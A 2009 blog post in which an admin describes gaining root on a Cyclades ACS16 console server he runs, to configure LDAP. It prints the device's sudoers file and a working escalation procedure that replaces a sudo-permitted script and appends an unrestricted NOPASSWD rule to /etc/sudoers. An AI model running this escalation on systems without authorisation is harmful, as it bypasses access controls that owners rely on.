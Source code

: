 Title: root on a Cyclades ACS console server
Date: 2009-11-18 16:21
Author: admin
Category: Hardware
Tags: acs, cyclades, gettingroot
Slug: root-on-a-cyclades-acs-console-server

At work we have a Cyclades ACS16 console server (running
Cyclades-ACS16-Linux V\_3.2.0 (Jan/04/08)). While the docs claim all
sorts of LDAP features, there's nothing (either in the web GUI or the
CLI configuration tool) to setup LDAP with TLS or required group
membership. I tried modifying the /etc/ldap.conf and /etc/nsswitch.conf
files, running `saveconf` and `runconf` and even rebooting, but no luck.
It was apparent that I needed root on the box. Unfortunately, they don't
give you root, and their sudo command is locked down. But, I figured, if
sudo would let me </code> and `chown` and `cat` and `mv` (enough to
switch out the ldap.conf and nsswitch.conf files), root should be pretty
easy.

The failing of Cyclades' sudo lockdown is that it allows sudo execution
of a few random shell scripts, and also allows \`mv\`.

The `/etc/sudoers`:

~~~~{.text}
# sudoers file.
#
# This file MUST be edited with the 'visudo' command as root.
#
# See the sudoers man page for the details on how to write a sudoers file.
#

# User alias specification

# Runas alias specification

# Host alias specification

# Cmnd alias specification
Cmnd_Alias     SH_CMDS = /bin/cp,  
                        /bin/chown,  
                        /bin/egrep,  
                        /bin/grep,  
                        /bin/cat,  
                        /bin/tar,  
                        /bin/kill,  
                        /bin/mkdir,  
                        /bin/mv,  
                        /bin/rm,  
                        /bin/sed,  
                        /bin/touch,  
                        /sbin/reboot,  
                        /usr/bin/killall,  
                        /usr/bin/w,  
                        /bin/w_cas,  
                        /bin/sess_mngt,  
                        /sbin/route,  
                        /bin/what

Cmnd_Alias     CONF_FILES = /bin/vi /etc/network/st_routes,  
                           /bin/vi /etc/portslave/pslave.conf,  
                           /bin/vi /etc/resolv.conf

Cmnd_Alias     APPLICATIONS = /bin/pmCommand,  
                             /bin/saveconf,  
                             /bin/restoreconf,  
                             /bin/runconf,  
                             /bin/daemon.sh,  
                             /bin/manageService.sh,  
                             /bin/dsviewKillAdmin,   
                             /bin/pmfwupgrade,   
                             /bin/adsap2_clear,   
                             /bin/upgrade_power.sh,   
                             /bin/signal_ras

# User privilege specification
# root can run any command on any host as any user.
root    ALL = (ALL) ALL

# admin user group command specification.
%admin      ALL = NOPASSWD: SH_CMDS, CONF_FILES, APPLICATIONS
~~~~

So, /bin/upgrade\_power.sh doesn't look like we're using it too much.
Here's our root procedure. Before doing this, create the
`/home/admin/foo.sh` script.

~~~~{.bash}
sudo cp /bin/upgrade_power.sh /bin/upgrade_power.sh.SAVE
sudo chown root:root /home/admin/foo.sh
sudo mv /home/admin/foo.sh /bin/upgrade_power.sh
sudo /bin/upgrade_power.sh
sudo cat /etc/sudoers # just to verify that it worked
sudo mv /bin/upgrade_power.sh.SAVE /bin/upgrade_power.sh # set things back to the way they were
~~~~

And the key to all of it is the simple `/home/admin/foo.sh` script:

~~~~{.bash}
#!/bin/bash

chmod u+w /etc/sudoers
echo "%admin      ALL = NOPASSWD: ALL" >> /etc/sudoers
chmod u-w /etc/sudoers
~~~~

That's it!
